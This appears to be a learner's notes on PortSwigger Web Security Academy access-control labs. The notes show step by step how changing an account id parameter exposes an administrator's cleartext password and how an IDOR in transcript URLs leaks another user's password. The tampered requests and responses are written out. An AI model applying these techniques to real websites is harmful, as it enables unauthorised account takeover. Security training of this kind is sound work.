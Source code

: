 ```bash
Note in the response you can see the cleartext password
Note the end-point:

https://ac011f1f1e0642f5c0b4c753004400dd.web-security-academy.net/my-account?id=wiener

Change to:

https://ac011f1f1e0642f5c0b4c753004400dd.web-security-academy.net/my-account?id=administrator

Response:

HTTP/1.1 200 OK

'Your username is: administrator'

<input required type=password name=password value='jluw9vw1ssrk9pvaokv2'/>

Login as administrator:jluw9vw1ssrk9pvaokv2

Delete the username "carlos"

```

![[Pasted image 20220514005259.png]]

![[Pasted image 20220514010344.png]]

### Insecure direct object references
```bash

# This lab stores user chat logs directly on the server's file system, and retrieves them using static URLs.

# Solve the lab by finding the password for the user carlos, and logging into their account. 

Go to: "Live chat"
Send any message
Note the end-point:

GET /download-transcript/2.txt HTTP/1.1

Response:

"Whatever you sent"

Send to repeater
Change:

GET /download-transcript/2.txt HTTP/1.1

to

GET /download-transcript/1.txt HTTP/1.1

The response contains the password

```
